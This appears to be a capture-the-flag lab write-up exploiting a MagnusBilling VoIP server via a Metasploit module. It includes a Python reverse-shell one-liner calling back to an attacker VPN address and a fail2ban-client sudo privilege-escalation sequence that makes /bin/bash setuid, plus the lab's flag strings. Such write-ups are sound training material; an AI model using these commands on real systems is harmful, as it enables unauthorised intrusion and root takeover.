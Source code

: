 ```yaml
---
sticker: emoji//1f4b3
---
```


# PORT SCAN
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |



# RECONNAISSANCE
---


![](images/Pasted%20image%2020250612121156.png)

Once we go to the web application, we can check this is working with something called `MagnusBilling`, we know this because a little moment before going into the web application, this loads in:

![](images/Pasted%20image%2020250612121421.png)

**MagnusBilling** is an open-source VoIP billing and call accounting platform designed for service providers, call shops, and enterprises. It provides comprehensive solutions for call routing, rate management, user provisioning, and real-time billing. Built on a LAMP/LEMP stack, it supports integration with major VoIP protocols (SIP, IAX) and hardware, featuring web-based management, fraud detection, and multi-tenant capabilities.

If we search info related to this, we can find this exploit:

![](images/Pasted%20image%2020250612121504.png)


![](images/Pasted%20image%2020250612121513.png)


Based on that, let's search a module on `metasploit`:

![](images/Pasted%20image%2020250612121650.png)

Same exploit as the one above, let's proceed with exploitation.


# EXPLOITATION
---

![](images/Pasted%20image%2020250612121837.png)

Now, set options and run the exploit:


![](images/Pasted%20image%2020250612121935.png)


We got our meterpreter shell, I will switch to a netcat shell for a better experience:

```
meterpreter > shell

python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("VPN_IP",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/bash"])'
```


![](images/Pasted%20image%2020250612122241.png)

Let's begin privilege escalation.


# PRIVILEGE ESCALATION
---

First step is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](images/Pasted%20image%2020250612122406.png)

We got a shell as `asterisk`, let's use linpeas and check what can we do to escalate our privileges:


![](images/Pasted%20image%2020250612122904.png)

We can run `fail2ban-client` binary, in a previous machine, specifically `biteme`, a similar privilege escalation was done with this binary but in that case we could reset the service of `fail2ban`, let's check how to exploit it in this case:

![](images/Pasted%20image%2020250612123256.png)

![](images/Pasted%20image%2020250612123306.png)

That would work but we don't have write permissions over the `iptables.conf` file:

![](images/Pasted%20image%2020250612123407.png)

Unfortunately, this is not the path, but, investigating further we can find this article:

Article: https://exploit--notes-hdks-org.translate.goog/exploit/linux/privilege-escalation/sudo/sudo-fail2ban-client-privilege-escalation/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc

![](images/Pasted%20image%2020250612123516.png)

Let's replicate the PoC:

```
# Get jail list
sudo /usr/bin/fail2ban-client status
# Choose one of the jails from the "Jail list" in the output.
sudo /usr/bin/fail2ban-client get <JAIL> actions
# Create a new action with arbitrary name (e.g. "evil")
sudo /usr/bin/fail2ban-client set <JAIL> addaction evil
# Set payload to actionban
sudo /usr/bin/fail2ban-client set <JAIL> action evil actionban "chmod +s /bin/bash"
# Trigger the action
sudo /usr/bin/fail2ban-client set <JAIL> banip 1.2.3.5
# Now we gain a root
/bin/bash -p
```

```
asterisk@ip-10-10-24-201:/tmp$ sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:	8
`- Jail list:	ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd

sudo /usr/bin/fail2ban-client get mbilling_ddos actions
The jail mbilling_ddos has the following actions:
iptables-allports

sudo /usr/bin/fail2ban-client set mbilling_ddos addaction evil
sudo /usr/bin/fail2ban-client set mbilling_ddos action evil actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set mbilling_ddos banip 1.2.3.5
```

![](images/Pasted%20image%2020250612123848.png)

As seen, we get a root shell following the PoC, let's get both flags:

```
bash-5.2# cat /home/magnus/user.txt
THM{4a6831d5f124b25eefb1e92e0f0da4ca}

bash-5.2# cat /root/root.txt
THM{33ad5b530e71a172648f424ec23fae60}
```

![](images/Pasted%20image%2020250612124033.png)


